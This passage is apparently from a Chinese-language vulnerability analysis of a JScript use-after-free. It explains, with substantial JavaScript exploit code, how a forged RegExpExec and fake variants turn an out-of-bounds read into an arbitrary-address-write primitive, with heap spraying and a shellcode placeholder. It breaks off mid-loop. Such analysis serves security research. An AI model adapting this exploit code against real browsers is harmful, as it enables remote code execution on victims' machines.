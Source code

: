 ```
 
fakeRegExpCharCodes[m_pvarMaster / sizeof_WCHAR] = 0;
fakeRegExpCharCodes[(m_pvarMaster / sizeof_WCHAR) + 1] = 0;
 
for(var i = 0; i < sizeof_VAR / sizeof_WCHAR; i++){
    fakeRegExpCharCodes[m_varCode / sizeof_WCHAR + i] = fakeRegExpCharCodes[m_varSrc / sizeof_WCHAR + i];
    fakeRegExpCharCodes[m_varSrc / sizeof_WCHAR + i] = 0;
}
 
for(var i = 0; i < shellcode.length; i++)
    fakeRegExpCharCodes.push(0xCCCC);
 
var fakeRegExpStr = String.fromCharCode.apply(null, fakeRegExpCharCodes);

```

### 从越界读取到任意地址写

前面已经从内存中 “dump” 出一个完整的 RegExpObj(一共 dump 了 sizeof_RegExpObj+4 字节)，接下来是整个利用过程的精彩部分，跟随笔者一起来看一下利用代码如何借助正则表达式对象构造一个完美的任意地址写入原语。

 

要理解这一过程，首先需要了解下 RegExpObj 的一些成员，RegExpObj 在 32 位下的大小为 0xC0，其中比较重要的几个成员如下：

*   RegExpObj+0x10: 这里保存着一个地址，该地址指向一个 type=0x81 的 variant，此 variant 指向当前 RegExpObj
*   RegExpObj+0x38：这里保存着一个 type=0x80(间接引用) 的 variant，该 variant.obj_ptr 进一步指向一个 type=0x08(字符串) 的 variant，该 variant.obj_ptr 指向一个 RegExpExec 对象首部，RegExpExec 对象首部是一个 0x4b74614e 魔术值，接着是一个头部，然后是一个与正则 pattern 相对应的字符串
*   RegExpObj+0x48: 这里保存着一个 type=0x08(字符串) 的 variant，该 variant.obj_ptr 指向一个 BSTR 对象，此 BSTR 对象保存着与正则文本域相对应的字符串。但需要注意的是，这个地方的的 variant 只有在调用 RegExp.source() 后才会得到初始化

如上面代码所示，利用借助 fakeRegExpCharCodes 数组修改了上述 RegExpObj+0x10 和 RegExpObj+0x38 处的变量，首先将 RegExpObj+0x10 开始的 4 字节置为空，然后将 RegExpObj+0x48 处的 0x10 字节拷贝到 RegExpObj+0x38 处，即替换了对应的 variant。为什么要这么做？这就涉及到本小节最前面的那句 new RegExp(reSrc)。原来，攻击者传给 RegExp 的 reSrc 参数是一个精心设计的 RegExpExec，经过上面的替换后 RegExpObj+0x38 处的 RegExpExec 已经变成一个伪造的 RegExpExec，后面正是借助这个伪造的 RegExpExec 实现任意地址写。

 

修改完 fakeRegExpCharCodes 后，将其转化为一个 fakeRegExpStr 字符串对象，然后循环调用 RegExp.compile 方法将其更新到内存，并调用 RegExp.source 将 fakeRegExpStr 的地址更新到 RegExpObj+0x48 处的 variant.obj_ptr，随后读取 RegExpObj+0x48 处的内存，得到 fakeRegExpStr 的地址。

 

得到 fakeRegExpStr 的地址后，再次借助 makeVariant 将其封装为一个 type=0x81 的 variant，并第 3 次触发漏洞将 variant 布局到被释放的内存。随后在内存定位到对应的 variant，得到一个 RegExpObj，取出 RegExpObj+0x48 处的 variant。如前所述，这个 variant 是 type=0x80，是一个间接引用，需要读取 variant.obj_ptr 作为新的 variant，再读取一次 variant.obj_ptr

```
// obj_ptr points to the VAR.obj_ptr corresponding to the VAR in RegExpObj+0x48
var obj_ptr = (nrefs[leakIndex].charCodeAt(((m_varSrc - 4 + bstrVal) / sizeof_WCHAR) + 1) << 16) | (nrefs[leakIndex].charCodeAt((m_varSrc - 4 + bstrVal) / sizeof_WCHAR) + 2); // 注意这边这个+2很有意思
 
// The memory at obj_ptr is read, by creating fake VARs pointing to the addres in obj_ptr (VAR.obj_ptr)
var extendPropertyName2 = "\uFFFF\uFFFF\uFFFF\uFFFF\uFFFF\uFFFF" + makeVariant(0x0082, obj_ptr);
for(var i = refsLimit; i >= leakIndex; i--)
    nrefs[i] = null;
 
for(var i = 0; i < 0x1000; i++)
    propHolders[i][extendPropertyName2] = 1;
 
while(--leakIndex >= 0)
    try{
        if((typeof nrefs[leakIndex]) === "string" && nrefs[leakIndex].length > 0x1000) // m_varSrc处是一个type=0x80的variant指针，解引用后是一个type=8的字符串VAR
            break;
```